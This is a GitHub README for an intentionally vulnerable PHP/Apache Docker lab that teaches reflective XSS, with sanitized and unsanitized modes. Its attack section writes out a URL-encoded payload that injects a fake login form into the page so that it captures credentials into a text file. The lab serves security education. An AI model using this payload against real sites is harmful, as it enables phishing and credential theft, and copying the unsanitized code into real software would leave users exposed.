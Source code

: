 # PHP / Apache web stack vulnerable to Reflective XSS
NOTE: There is no DB attached to the web app which means you can put any username and password will.....bad security practice...I know ;)

# Purpose
- To understand the development side when identifying vulnerabilities in web applications
- Integrate on application security practices and web application developement

# Prerequisites
- Docker => ```docker --version``` to verify installation
- git => ```git --version``` to verify installation
- Visual Studio Code => code editor 
  NOTE: I used vi/vim for most of my coding for this repo

# Steps on how to run the container
- Download the repo => ```git clone https://github.com/p-cap/Php-Apache-Reflective-XSS.git```
- change the permissions on build-docker.sh => ```chmod 700 build-docker.sh```
- run the ```build-docker.sh```

# Synopsis
This repository contains not only php vulnerable code but also another version which sanitization is applied to mitigate such attack

# Usage
1. connect to ```http://localhost:8080/```
2. You'll start with the unsanitized version of the site
3. Put any username and password then click login
4. You'll be redirected to another page with a "WELCOME, $username"
5. The link *"Ready to be phished??"* will take you to another page which contains more links. The first link uses the script tag-alert combo to test if the site is vulnerable. The links contain html tags encoded differently to simulate a Reflective XSS attack
6. The *URL with url encoded HTML tags*, *URL encoded Link* and *Unicode* will redirect to another login page. The page is embedded in the links
7. When you enter you a username and password, those credentials are stored in a text file named *saved.txt*. The file simulates an attacker stealing usernames and passwords
8. Going to the home page, you can click on the last link that switches the site between the sanitized and unsanitized version of the site
9. You follow the same procedures but the difference is when you are redirected to the other login page, the page will show you that *you are not entering a username* 

# Victimology
1. User receives one of the links from ```phish.html```
2. User clicks the link 
3. User is presented a login page 
   NOTE: The login page is NOT the attacker webpage. The webpage was rendered through the malicious links within phish.html
4. User enters username and password 
5. Attacker now has the victim's credentials

# Attack-ology
1. Attacker identifies a site that is vulnerable to Reflective XSS
2. One way to identify that a site is vulnerable to Reflective XSS is through the *script tag - alert combo* (first link)
3. Once the attacker sees a vulnerable site, the attack creates a link to render a login page utilizing the vulnerable site:
Partially Encode URL link
```
 <a href="http://localhost:8080/welcome.php?username=
    <div id=%22stealPassword%22>
      Please Login:<form name=%22input%22 action=%22http://localhost:8080/credentials.php%22 method=%22post%22>
      Username: <input type=%22text%22 name=%22username%22 />
      <br/>
      Password: <input type=%22password%22 name=%22password%22 />
      <br/>
      <input name=%22submit%22 type=%22submit%22 value=%22Login%22 /></form>
    </div>">
```
